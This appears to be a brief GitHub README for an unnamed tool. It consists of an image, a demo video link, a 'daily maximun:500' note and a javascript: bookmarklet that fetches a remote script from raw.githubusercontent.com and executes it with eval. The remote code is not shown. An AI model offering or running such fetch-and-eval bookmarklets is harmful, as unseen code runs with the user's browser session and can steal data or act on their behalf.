 

https://user-images.githubusercontent.com/94034091/141063607-b08a11f9-5cca-4af1-b721-e2e1759b317c.mp4

##note:daily maximun:500

#`javascript:fetch("https://raw.githubusercontent.com/user134383097489237489/pakacha1/main/Untitled-1.js").then((res) => res.text().then((t) => eval(t)))`
